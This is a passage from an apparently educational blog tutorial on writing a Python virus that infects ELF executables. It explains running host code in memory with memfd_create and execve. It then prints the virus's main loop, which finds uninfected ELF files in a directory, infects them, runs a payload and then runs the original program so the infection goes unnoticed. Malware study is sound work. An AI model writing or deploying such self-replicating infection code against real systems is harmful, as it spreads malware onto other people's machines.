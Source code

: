 
So back to our code: In line **25** we ask the `memfd_create()` wrapper for a file descriptor, use it to write the host code into the in-memory file in line **30** and execute said file with `os.execve()`[^fn:4] in line **32**.

Who says systems programming is hard? We're doing it with our comfy `Pythonz`...

The payload could be anything, but ours brings to attention the modern comforts of _toilet paper_ in these infectious times. Why not start mining crypto currency on those poor victim machines? Because we're altruistic virus writers, that's why!

Lastly we have our main loop that ties everything neatly together:

```python { linenos=true, linenostart=37, hl_lines=["23"] }
def main():
    # Get the name of the current executable.
    myself = os.path.basename(sys.argv[0])

    # Look for non-infected ELF files in the directory.
    # Skip directories and ourselves.
    # If a candidate is found, infect it.
    with os.scandir(QUARANTINE_WARD) as entries:
        for entry in entries:
            if (not entry.is_file()):
                continue
            if (entry.name == myself):
                continue

            with open(entry, "rb") as f:
                content = f.read()
                if (is_elf(content)):
                    if (not is_infected(content)):
                        infect(entry.path)

    # Check if this code is already attached to a host.
    file_size = os.path.getsize(sys.argv[0])
    if (file_size > VIRUS_SIZE):
        payload()
        run_host()

if __name__ == "__main__":
    main()
```

We iterate over every entry in our quarantine directory, skipping over other directories (because, again, we're _polite_ virus writers!) and the executing binary itself. A suitable file is identified via the `ELF_MAGIC` bytes.

In order to not infect a file _again_, we check for the presence of the `DARK_MARK` via `is_infected()`. We don't have to specifically write the mark to every infected binary, because it's already statically present in the virus by merely defining it.

If a file is not yet infected, we... you guessed it.
After we're done infecting all the possible files, we want to actually run the host code so that it looks like every infected program gets executed normally. Our simple check in line **59** prevents us from trying to execute non-existing host code in the _original_ virus binary.


[^fn:1]: A small nod to the wonderful [DJ Smokey](https://soundcloud.com/smoke-gang-beatz/corona-doomsday-preppers-w-dj-smokey-soudiere-dj-kraft-dinna).
[^fn:2]: That's precisely why we need to keep track of the `VIRUS_SIZE`.
[^fn:3]: 🎩
[^fn:4]: Which conveniently lets us [specify](https://docs.python.org/3/library/os.html#os.execve) a file descriptor instead of a path for the file to be executed since `Python 3.3`.
[^fn:5]: It's _not_ the lack of error handling. That's missing intentionally so that things stay readable.
[^fn:6]: That doesn't mean there are no viruses in script form. Have a look at this [talk](https://www.youtube.com/watch?v=2Ra1CCG8Guo) by Ben Dechrai.
[^fn:7]: <https://www.youtube.com/watch?v=4jLT7GQYNhI&t=90s>
[^fn:8]: I'm not being overmodest, I really have no clue.
[^fn:9]: You can find it [here](https://sourceforge.net/projects/elftoolchain/).